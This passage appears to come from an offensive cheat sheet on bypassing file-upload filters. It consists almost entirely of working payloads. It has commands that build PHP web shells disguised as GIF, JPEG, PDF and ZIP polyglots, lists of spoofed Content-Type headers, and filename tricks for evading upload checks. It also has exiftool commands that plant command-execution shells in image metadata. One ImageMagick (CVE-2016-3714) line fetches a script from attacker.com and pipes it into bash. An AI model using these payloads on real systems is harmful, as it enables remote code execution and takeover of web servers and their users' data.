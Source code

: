 #### Polyglot Files

```bash
# GIF/PHP polyglot
echo 'GIF89a;<?php system($_GET["cmd"]); ?>' > shell.gif

# JPEG/PHP polyglot
printf "\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xdb\x00\x43\x00<?php system(\$_GET['cmd']); ?>" > shell.jpg

# PDF/PHP polyglot
echo '%PDF-1.4<?php system($_GET["cmd"]); ?>' > shell.pdf

# ZIP/PHP polyglot
echo -e "PK\x03\x04<?php system(\$_GET['cmd']); ?>" > shell.zip
```

#### Content-Type Bypass Collection

```
Content-Type: image/jpeg
Content-Type: image/gif
Content-Type: image/png
Content-Type: application/pdf
Content-Type: application/octet-stream
```

#### Filename Tricks

```
shell.PHP
shell.pHp
shell.php5
shell.phtml
shell.phar
shell.inc
shell.php....
shell.php%20
shell.php%0a
shell.php%00
shell.php%0d%0a
shell.php/
shell.php.\
shell.
shell.php::$DATA
```

### Image Metadata Exploitation

```bash
# Exiftool payload injection
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg

# All metadata fields
exiftool -DocumentName='<?php system($_GET["cmd"]); ?>' \
        -Copyright='<?php system($_GET["cmd"]); ?>' \
        -Artist='<?php system($_GET["cmd"]); ?>' \
        -ImageDescription='<?php system($_GET["cmd"]); ?>' \
        image.jpg

# ImageMagick exploitation (CVE-2016-3714)
convert 'https://example.com"|curl http://attacker.com/shell.sh|bash"' out.png
```
